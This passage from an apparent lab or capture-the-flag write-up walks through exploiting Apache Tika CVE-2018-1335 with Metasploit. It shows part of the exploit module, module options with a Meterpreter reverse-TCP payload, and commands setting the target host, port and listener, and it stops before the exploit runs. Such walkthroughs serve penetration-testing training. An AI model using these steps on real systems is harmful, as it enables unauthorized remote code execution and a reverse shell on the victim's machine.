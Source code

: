 ```rb

  def exploit
    execute_cmdstager(linemax: 8000)
  end
end
```
**Explanation:**
  - Sends an **HTTP** request to detect **Apache Tika versions** `1.15-1.17`.
  - Creates a **JScript** payload to execute commands via `WScript.Shell`
  - The **target** processes the **request** and executes the **command**.
  - Uses **command stagers** to execute **arbitrary commands**, gaining **RCE**.

---

Now that we **understand** how the **exploit** works, we are **ready** to proceed with **exploiting** **[CVE-2018-1335](https://pentest-tools.com/vulnerabilities-exploits/apache-tika-118-header-command-injection_2090).**
```console
msf6 exploit(windows/http/apache_tika_jp2_jscript) > options

Module options (exploit/windows/http/apache_tika_jp2_jscript):

   Name        Current Setting   Required  Description
   ----        ---------------   --------  -----------
   Proxies                        no       Proxy chain (type:host:port)
   RHOSTS        yes              yes      Target host(s)
   RPORT         9998             yes      Target port (TCP)
   SSL           false            no       Enable SSL/TLS
   SSLCert                        no       Custom SSL certificate path
   TARGETURI     /                yes      Base path to web app
   URIPATH                        no       URI to use for exploit
   VHOST                          no       HTTP server virtual host


   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   SRVHOST    0.0.0.0           yes       Local host to listen on
   SRVPORT    8080              yes       Local port to listen on

Payload options (windows/meterpreter/reverse_tcp):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   EXITFUNC   process           yes       Exit technique
   LHOST                        yes       Listen address
   LPORT      4444              yes       Listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows

```
We will **set** `RHOSTS` to the target server **host** and `RPORT` to the **Apache Tika port.**
```console
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RHOSTS 10.10.53.38
RHOSTS => 10.10.53.38
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RPORT 61777
RPORT => 61777
```
Next, we will **set** `LHOST` to `tun0` and `LPORT` to our chosen **port**.
```console
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LHOST tun0
LHOST => tun0
```